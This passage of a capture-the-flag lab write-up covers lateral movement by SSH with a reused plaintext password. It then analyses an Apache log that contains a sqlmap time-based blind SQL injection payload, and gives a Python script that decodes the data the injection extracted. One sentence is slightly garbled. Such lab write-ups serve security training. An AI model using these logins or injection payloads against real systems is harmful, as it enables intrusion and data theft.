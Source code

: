 ##### Lateral Movement 

We have previously obtained more `creds`, when searching for other valid one's for `ssh` we find those of the `administrator` user, we obtain another shell on the machine
```
    ❯ sshpass -p ihatepasta ssh administrator@10.13.37.14
    administrator@erlenmeyer:~$ id
    uid=1000(administrator) gid=1000(administrator) groups=1000(administrator)  
    administrator@erlenmeyer:~$ hostname -I
    10.13.37.14 172.17.0.1 172.22.0.1
    administrator@erlenmeyer:~$
``` 

  

Among the files that we own we find the Apache `access.log` file, which a normal user should not generally be able to read.
```
    administrator@erlenmeyer:~$ find / -user administrator 2>/dev/null | grep -vE "/proc|/sys|/home|/run"  
    /dev/pts/0
    /var/mail/administrator
    /var/log/apache2/access.log
    administrator@erlenmeyer:~$
 ```   

  

In it we find several `logs`facts `sqlmap`about the archive`/update.php`
```
    administrator@erlenmeyer:~$ cat /var/log/apache2/access.log | grep sqlmap | head -n1
    4969 192.168.86.1 - - [20/Jul/2021:00:00:00 -0700] "GET /update.php?keyword=python%27%20WHERE%201388%3D1388%20AND%20%28SELECT%207036%20FROM%20%28SELECT%28SLEEP%283-%28IF%28ORD%28MID%28%28SELECT%20IFNULL%28CAST%28table_name%20AS%20NCHAR%29%2C0x20%29%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20table_schema%3D0x6d7973716c%20LIMIT%2028%2C1%29%2C3%2C1%29%29%3E110%2C0%2C3%29%29%29%29%29pqBK%29--%20EZas&text=python3 HTTP/1.1" 200 327 "http://192.168.86.128:80/update.php" "sqlmap/1.5.7.4#dev (http://sqlmap.org)"  
    administrator@erlenmeyer:~$
 ```   

  

We notice a pattern in certain lines, such as `))>96`, where `))` is followed by some characters and a decimal number. Our approach is to extract these lines, `urldecode` them, and convert each decimal value into readable `text` using `chr()`. This could reveal hidden data or encoded messages within the logs
```
    #!/usr/bin/python3
    import re, urllib.parse
    
    with open("/var/log/apache2/access.log") as file:  
        for line in file:
            line = urllib.parse.unquote(line)
            if not "update.php" in line:
                continue
            regex = re.search("\)\)!=(\d+)", line)
            if regex:
                decimal = int(regex.group(1))
                print(chr(decimal), end="")
    
```
  